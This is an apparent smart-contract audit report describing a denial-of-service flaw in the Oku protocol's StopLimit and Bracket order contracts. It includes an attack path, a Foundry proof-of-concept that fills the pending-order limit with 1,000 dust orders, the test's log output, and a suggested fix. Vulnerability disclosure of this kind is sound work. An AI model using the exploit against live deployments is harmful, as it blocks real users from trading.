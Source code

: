 Orbiting Goldenrod Jaguar

High

# Attacker can DDOS `Bracket` and `StopLimit` by continuously call attack contracts to exhaust the pendingOrderIds limit with minimal cost on Optimism, preventing users from creating new orders

### Summary

The unrestricted order creation process will cause a DDOS for the entire protocol as attacker can deploy malicious contracts to continuously create dust orders in loops at minimal cost on Optimism, effectively paralyzing both StopLimit and Bracket functionalities while administrators can only cancel orders individually


Note: Due to generateOrderId lacking a nonce parameter, malicious contracts can create duplicate order IDs in the same block, but this is not considered a vulnerability as it only affects contract-based batch operations and adminCancel will only remove the first occurrence of any duplicate ID.

```solidity
    ///@notice generate a random and unique order id
    function generateOrderId(address sender) external view override returns (uint96) {
        uint256 hashedValue = uint256(
            keccak256(abi.encodePacked(sender, block.timestamp))
        );
        return uint96(hashedValue);
    }
```

### Root Cause

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L183-L213
https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L444-L499

https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L146-L188
https://github.com/sherlock-audit/2024-11-oku/blob/ee3f781a73d65e33fb452c9a44eb1337c5cfdbd6/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L300-L356

In `StopLimit.sol:createOrder` and `Bracket.sol:createOrder` there is no restriction on contract calls



### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker deploys malicious contract that contains a loop to call `createOrder`
2. Attacker calls the malicious contract to execute the loop, creating multiple orders with minimal USDC amount (1e6)
3. The loop continues until `pendingOrderIds.length` reaches maxPendingOrders limit
4. When legitimate user calls `createOrder`, the transaction reverts with "Max Order Count Reached"
5. Administrator attempts to mitigate by calling `cancelOrder ` with specific orderId
6. Before administrator can cancel sufficient orders, attacker calls the malicious contract again to refill slots
7. This cycle continues, effectively preventing users from creating orders

### Impact

The protocol cannot process new orders under two scenarios:

1. Low maxPendingOrders Setting (e.g., 1000-5000):
Attacker can fill all slots in a single transaction at minimal cost (40,023,413 gas ≈ $0.08)
Users' transactions will revert with "Max Order Count Reached"
Protocol becomes unusable until administrators manually cancel orders

2. High maxPendingOrders Setting (e.g., 100,000+):
Attacker can calculate optimal batch size based on gas limits
Multiple transactions can be used to create orders until array operations exceed gas limits
Both attack and legitimate transactions will fail due to out of gas
Protocol remains unusable as array operations become too expensive

### PoC

The protocol cannot process new orders as attacker deploys a malicious contract to create 1000 dust orders in a loop, reaching the maxPendingOrders limit. Users' transactions will revert with 'Max Order Count Reached' error while administrators can only cancel orders one by one.    

```solidity
function testDOSAttack() public {
        console.log("\n=== Starting DOS Attack ===");
        console.log("Initial pending orders:", stopLimit.getPendingOrders().length);
        
        // Record attacker's initial gas
        uint256 attackerInitialGas = gasleft();
        
        // Attacker creates 1000 orders to fill up the system
        vm.startPrank(attacker);
        for(uint i = 0; i < 1000; i++) {
            stopLimit.createOrder(
                1800e8,
                2000e8,
                1700e8,
                1e6,    // 1 USDC
                USDC,
                WETH,
                attacker,
                100,
                100,
                100,
                100,
                false,
                false,
                ""
            );
        }
        
        // Calculate attacker's gas consumption
        uint256 attackerGasUsed = attackerInitialGas - gasleft();
        vm.stopPrank();
        
        console.log("\n=== Attacker Stats ===");
        console.log("Total orders created:", stopLimit.getPendingOrders().length);
        console.log("Total gas used:", attackerGasUsed);
        
        // Calculate attack cost in ETH
        uint256 attackCostWei = attackerGasUsed * 1 gwei / 1000;
        console.log("Attack cost (wei):", attackCostWei);
        
        // Record normal user's initial gas
        uint256 userInitialGas = gasleft();
        
        // Normal user attempts to create an order
        vm.startPrank(user);
        vm.expectRevert("Max Order Count Reached");
        stopLimit.createOrder(
            1800e8,
            2000e8,
            1700e8,
            1000e6,  // 1000 USDC
            USDC,
            WETH,
            user,
            100,
            100,
            100,
            100,
            false,
            false,
            ""
        );
        
        // Calculate user's gas consumption
        uint256 userGasUsed = userInitialGas - gasleft();
        vm.stopPrank();

        console.log("\n=== Normal User Stats ===");
        console.log("Gas used in failed tx:", userGasUsed);
        uint256 userCostWei = userGasUsed * 1 gwei / 1000;
        console.log("User cost (wei):", userCostWei);
        
        console.log("\n=== Attack Summary ===");
        console.log("Attack gas total:", attackerGasUsed);
        console.log("User failed tx gas:", userGasUsed);
        console.log("Cost per order (wei):", attackCostWei / 1000);
    }
```

```solidity
[PASS] testDOSAttack() (gas: 37648322)
Logs:
  
=== Starting DOS Attack ===
  Initial pending orders: 0
  
=== Attacker Stats ===
  Total orders created: 1000
  Total gas used: 40023413
  Attack cost (wei): 40023413000000
  
=== Normal User Stats ===
  Gas used in failed tx: 32146
  User cost (wei): 32146000000
  
=== Attack Summary ===
  Attack gas total: 40023413
  User failed tx gas: 32146
  Cost per order (wei): 40023413000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.75s (1.23s CPU time)

Ran 1 test suite in 14.75s (14.75s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
This demonstrates that regardless of maxPendingOrders setting, attacker can effectively prevent order creation with minimal cost on Optimism, while users waste gas on failed transactions.

### Mitigation

The DOS attack can be prevented by restricting contract calls to the `createOrder` function using OpenZeppelin's `isContract ` check:

```solidity
    using Address for address;
  
    function createOrder(...) external {
        ++ require(!msg.sender.isContract(), "Only user");
        // .....
    }
}
```